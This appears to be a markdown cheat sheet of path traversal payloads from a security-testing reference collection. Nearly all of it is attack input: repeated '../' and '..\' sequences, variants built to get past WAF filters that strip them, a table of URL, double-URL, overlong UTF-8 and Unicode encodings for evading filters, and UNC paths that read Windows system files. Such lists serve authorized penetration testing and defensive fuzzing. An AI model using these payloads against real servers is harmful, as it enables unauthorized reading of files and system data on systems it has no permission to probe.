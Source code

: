 # Path Traversal Payloads

## Directory Traversal Payloads

These payloads are used for vulnerability detection.

```
../../../../../../
..//..//..//..//..//
..../..../..../..../..../..../
....//....//....//....//....//
..;/..;/..;/..;/..;/..;/             <- Include semicolon (;)
..././..././..././..././..././..././ <- WAF removes "../"

..\..\..\..\..\..\
..\/..\/..\/..\/..\/..\/
....\....\....\....\....\....\
....\/....\/....\/....\/....\/....\/
..;\..;\..;\..;\..;\..;\             <- Include semicolon (;)
...\.\...\.\...\.\...\.\...\.\...\.\ <- WAF removes "..\"
```

## Evasion

| ASCII Character | URL Encoding | Double URL Encoding | UTF-8 Encoding                  | 16 bits Unicode Encoding |
| --------------- | ------------ | ------------------- | ------------------------------- | ------------------------ |
| `.`             | `%2e`        | `%252e`             | `%c0%2e`, `%e0%40%ae`, `%c0ae`  | `%u002e`                 |
| `/`             | `%2f`        | `%252f`             | `%c0%af`, `%e0%80%af`, `%c0%2f` | `%u2215`                 |
| `\`             | `%5c`        | `%255c`             | `%c0%5c`, `%c0%80%5c`           | `%u2216`                 |

### Windows

UNC Bypass

```
\\localhost\c$\windows\win.ini
\\127.0.0.1\c$\windows\win.ini
\\<IP>\c$\windows\win.ini
```

---
## References

- [PayloadsAllTheThings: Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

- [SecLists: Directory Traversal Payloads](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
